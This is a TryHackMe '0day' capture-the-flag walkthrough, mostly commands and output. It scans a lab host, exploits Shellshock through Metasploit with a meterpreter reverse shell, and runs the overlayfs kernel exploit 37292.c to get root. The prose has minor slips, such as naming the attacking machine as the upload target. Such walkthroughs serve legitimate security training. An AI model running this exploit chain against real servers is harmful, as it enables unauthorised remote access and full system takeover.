

0day (TryHackMe)
- This Room Name is 0day and Difficulty Level is Medium
- This Room is from TryHackMe and Created by MuirlandOracle and 0day
- Room Link Here
#sudo nmap -sS -sV -O -A 10.10.11.208
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-25 13:15 UTC
Nmap scan report for 10.10.11.208
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
| 2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
| 256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_ 256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/25%OT=22%CT=1%CU=34125%PV=Y%DS=2%DC=T%G=Y%TM=5F957A
OS:77%P=x86_64-unknown-linux-gnu)SEQ(SP=FD%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=
OS:8)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M5
OS:08ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68D
OS:F)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S
OS:+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=
OS:)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%
OS:A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%
OS:DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=
OS:40%CD=S)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 3306/tcp)
HOP RTT ADDRESS
1 231.58 ms 10.11.0.1
2 231.70 ms 10.10.11.208
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.28 seconds
Nmap Result Show Only Port 80 (Apache httpd) and Port 22 (SSH) are open
Web Enumeration
- Nmap result show port 80 is open let check this, I found this webpage and I found nothing interesting
 I used gobuster to find some interesting and useful directory and files
$gobuster dir -u http://10.10.11.208/ -w /usr/share/dirbuster/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.11.208/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.1.0
[+] Timeout: 10s
===============================================================
2020/10/25 13:35:31 Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin (Status: 301)
/img (Status: 301)
/uploads (Status: 301)
/admin (Status: 301)
/css (Status: 301)
/js (Status: 301)
/backup (Status: 301)
===============================================================
2020/10/25 13:36:37 Finished
===============================================================
I found some dir but i really interested about cgi-bin dir
In this time , I used nikto to scan again
$nikto --host http://10.10.11.208/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP: 10.10.11.208
+ Target Hostname: 10.10.11.208
+ Target Port: 80
+ Start Time: 2020-10-25 13:41:46 (GMT0)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0xbd1 0x5ae57bb9a1192
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ Uncommon header 'nikto-added-cve-2014-6271' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
msf5 > search apache_mod_cgi
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 auxiliary/scanner/http/apache_mod_cgi_bash_env 2014-09-24 normal Yes Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
1 exploit/multi/http/apache_mod_cgi_bash_env_exec 2014-09-24 excellent Yes Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
Interact with a module by name or index, for example use 1 or use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf5 > use 0
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 10.10.11.208
RHOSTS => 10.10.11.208
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/test.cgi
TARGETURI => /cgi-bin/test.cgi
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > show options
Module options (auxiliary/scanner/http/apache_mod_cgi_bash_env):
Name Current Setting Required Description
---- --------------- -------- -----------
CMD /usr/bin/id yes Command to run (absolute paths required)
CVE CVE-2014-6271 yes CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
HEADER User-Agent yes HTTP header to use
METHOD GET yes HTTP method to use
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS 10.10.11.208 yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
RPORT 80 yes The target port (TCP)
SSL false no Negotiate SSL/TLS for outgoing connections
TARGETURI /cgi-bin/test.cgi yes Path to CGI script
THREADS 1 yes The number of concurrent threads (max one per host)
VHOST no HTTP server virtual host
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > run
[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) >
User
I used Apache mod_cgi Bash Environment Variable Code Injection (Shellshock) from metasploit to exploit
msf5 > use 1
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 10.10.11.208
RHOSTS => 10.10.11.208
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/test.cgi
TARGETURI => /cgi-bin/test.cgi
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > show options
Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):
Name Current Setting Required Description
---- --------------- -------- -----------
CMD_MAX_LENGTH 2048 yes CMD max line length
CVE CVE-2014-6271 yes CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
HEADER User-Agent yes HTTP header to use
METHOD GET yes HTTP method to use
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS 10.10.11.208 yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
RPATH /bin yes Target PATH for binaries used by the CmdStager
RPORT 80 yes The target port (TCP)
SRVHOST 0.0.0.0 yes The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
SRVPORT 8080 yes The local port to listen on.
SSL false no Negotiate SSL/TLS for outgoing connections
SSLCert no Path to a custom SSL certificate (default is randomly generated)
TARGETURI /cgi-bin/test.cgi yes Path to CGI script
TIMEOUT 5 yes HTTP read response timeout (seconds)
URIPATH no The URI to use for this exploit (default is random)
VHOST no HTTP server virtual host
Payload options (linux/x86/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST tun0 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Linux x86
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit
[*] Started reverse TCP handler on 10.11.17.184:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.11.208
[*] Meterpreter session 1 opened (10.11.17.184:4444 -> 10.10.11.208:60410) at 2020-10-25 13:56:13 +0000
meterpreter >
meterpreter > getuid
Server username: no-user @ ubuntu (uid=33, gid=33, euid=33, egid=33)
Now We got meterpreter Shell as www-data
meterpreter > pwd
/usr/lib/cgi-bin
meterpreter > cd /home
meterpreter > ls
Listing: /home
==============
Mode Size Type Last modified Name
---- ---- ---- ------------- ----
40755/rwxr-xr-x 4096 dir 2020-09-02 18:43:31 +0000 .secret
ryan
meterpreter > cd ryan
meterpreter > cat user.txt
THM{[NOFLAG REDACTED]}
meterpreter >
Privilege Escalation to root
First I check kernel version , I found this kernel version is 3.13.0-32-generic
meterpreter > shell
Process 1017 created.
Channel 2 created.
/bin/bash -i
www-data@ubuntu:/home/ryan$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/home/ryan$ whoami
whoami
www-data
www-data@ubuntu:/home/ryan$ uname -a && uname -r
uname -a && uname -r
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
3.13.0-32-generic
www-data@ubuntu:/home/ryan$
I know this kernel version 3.13.0.2 is exploitable with overflayfs Local Privileges Escalation
- I change to meterpreter shell again and upload this exploit into attacking machine
- After Upload this exploit into attacking machine and I complie this and run
- Boom I got root
www-data@ubuntu:/home/ryan$ exit
exit
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > searchsploit 37292
[*] exec: searchsploit 37292
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Exploit Title | Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation | linux/local/37292.c
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > upload /usr/share/exploitdb/exploits/linux/local/37292.c /tmp
[*] uploading : /usr/share/exploitdb/exploits/linux/local/37292.c -> /tmp
[*] uploaded : /usr/share/exploitdb/exploits/linux/local/37292.c -> /tmp/37292.c
meterpreter > shell
Process 1045 created.
Channel 4 created.
/bin/bash -i
bash: cannot set terminal process group (862): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/home/ryan$ cd /tmp
cd /tmp
www-data@ubuntu:/tmp$ ls
ls
37292.c
orNZL
www-data@ubuntu:/tmp$ mv 37292.c root.c
mv 37292.c root.c
www-data@ubuntu:/tmp$ gcc root.c -o root
gcc root.c -o root
www-data@ubuntu:/tmp$ ls
ls
orNZL
root
root.c
www-data@ubuntu:/tmp$ ./root
./root
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# id && whoami
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root
# cd /root
# cat root.txt
THM{[NO FLAG REDACTED]}